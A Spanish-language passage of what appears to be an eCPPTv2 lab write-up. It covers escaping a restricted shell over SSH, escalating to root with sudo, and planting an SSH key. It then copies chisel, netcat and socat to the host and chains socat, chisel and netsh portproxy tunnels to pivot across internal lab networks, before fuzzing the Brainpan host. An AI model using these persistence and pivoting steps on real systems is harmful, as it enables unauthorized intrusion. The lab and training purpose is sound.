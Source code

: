   <img src="/assets/img/commons/eCPPTv2/hydraSSH.png" alt="VMnet_lab">
  <figcaption style="font-style: italic; font-size: smaller;">Hydra con SSH</figcaption>
</figure>

##### <font color="#0070c0">Guest</font>
- Nos conectamos por ssh y entramos en una rbash (Restricted Bash), para poder ganar una bash sin restriciones, volvemos a conectarnos por ssh pero ahora le indicamos que ejecute una bash.
- `proxychains4 ssh guest@172.18.0.133 bash`
- Con "sudo -l" vemos que podemos ejecutar cualquier comando como root -> "sudo su" -> root.

##### <font color="#0070c0">ROOT</font>
- Creamos el "authorized_keys" con nuestro .pub.
- Copiamos los Binarios de Chisel y NetCat.
```python
$> proxychains4 scp -i ~/ssh/ecpptv2 NetScan.sh root@172.18.0.133:/root/
$> proxychains4 scp -i ~/ssh/ecpptv2 chisel root@172.18.0.133:/root/
$> proxychains4 scp -i ~/ssh/ecpptv2 socat root@172.18.0.133:/root/
```
- <font color="#e36c09">PWNED!</font>
#### <font color="#fac08f"><u>Pivoting</u> Matrix</font> 
- Creamos los socat para el cliente chisel en Matrix y poder alcanzar la red 10.15.12.0/24
```python 
$> ./chisel client 172.18.0.135:3003 R:7777:socks # Chisel en MATRIX
$> netsh interface portproxy add v4tov4 listenport=3003 listenaddress=0.0.0.0 connectport=3002 connectaddress=192.168.100.131 # Dumbledore
$> ./socat TCP-LISTEN:3002,fork TCP:10.10.0.129:3001 # NAGINI
$> ./socat TCP-LISTEN:3001,fork TCP:192.168.50.221:1234 # ARAGOG
```
### <font color="#de7802">Brainpan</font>
#### <font color="#fac08f">Enumeración</font>
- Descubrimos puerto 9999 y 10000.
<figure style="text-align: center;">
  <img src="/assets/img/commons/eCPPTv2/nmapMatrix.png" alt="VMnet_lab">
  <figcaption style="font-style: italic; font-size: smaller;">Nmap con proxychains4</figcaption>
</figure>
- Mediante burp podemos realizar un escaneo mandando la petición al intruder y fuzzeando /$test$ con el directorio 2.3.medium. Se necesita cambiar en /opciones/network/conecctions:
<figure style="text-align: center;">
  <img src="/assets/img/commons/eCPPTv2/socks5BURP.png" alt="VMnet_lab">
  <figcaption style="font-style: italic; font-size: smaller;">Proxy en Burpsuite</figcaption>
</figure>
- Fuzzeamos desde el intruder de BURP. Encontramos la ruta $/bin$ y este nos descarga un binario "brainpan.exe". 